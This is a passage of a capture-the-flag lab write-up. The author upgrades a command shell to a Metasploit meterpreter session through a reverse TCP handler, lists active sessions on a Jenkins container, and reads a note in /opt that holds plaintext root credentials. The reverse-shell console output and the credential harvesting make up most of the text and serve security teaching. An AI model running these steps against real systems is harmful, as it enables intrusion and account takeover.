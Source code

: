 ```bash
msf5 post(multi/manage/shell_to_meterpreter) > set lport 4333
lport => 4333
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.253.137:4333 
[*] Sending stage (980808 bytes) to 10.10.215.86
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > kill sessessions -k 3
[*] Killing the following session(s): 3
[*] Killing session 3
[*] 10.10.215.86 - Command shell session 3 closed.
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                                                                Connection
  --  ----  ----                   -----------                                                                ----------
  2         meterpreter x86/linux  no-user @ internal (uid=33, gid=33, euid=33, egid=33) @ 10.10.215.86       10.10.253.137:4433 -> 10.10.215.86:55326 (10.10.215.86)
  4         meterpreter x86/linux  no-user @ jenkins (uid=1000, gid=1000, euid=1000, egid=1000) @ 172.17.0.2  10.10.253.137:4333 -> 10.10.215.86:38946 (172.17.0.2)
```

Given my success with the previous `/opt` directory, I blindly decided to look there first in the new shell.

```bash
meterpreter > ls /opt 
Listing: /opt
=============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  204   fil   2020-08-03 03:31:42 +0000  note.txt

meterpreter > cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

This, much to my surprise, ended up yielding a set of root credentials which I could have, ironically, obtained without going through all the trouble of popping another shell.
